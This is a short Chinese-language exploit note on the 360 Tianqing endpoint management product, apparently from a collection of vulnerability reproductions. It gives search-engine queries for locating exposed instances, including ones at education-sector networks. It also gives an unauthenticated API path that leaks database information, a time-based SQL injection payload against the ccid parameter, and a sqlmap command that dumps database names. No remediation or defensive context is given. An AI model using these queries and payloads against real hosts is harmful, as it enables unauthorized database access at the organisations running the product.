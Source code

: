 # 360天擎 - 未授权与sql注入

## 360天擎 - 未授权与sql注入

## FOFA语法
```title="360新天擎"```


## 鹰图
```web.title="360新天擎"&& ip.isp="教育"```

## 漏洞复现

### 未授权漏洞
```路由后拼接/api/dbstat/gettablessize```
![](/assets/20231018183944.png)

### sql注入漏洞
比较推荐的方式先测试是否存在数据库信息泄露，存在的话大概率存在SQL注入
```
路由后拼接/api/dp/rptsvcsyncpoint?ccid=1

{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1';SELECT PG_SLEEP(5)--
```
![](/assets/20231018184057.png)

## sqlmap
python .\sqlmap.py --batch -dbs -u https://{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1

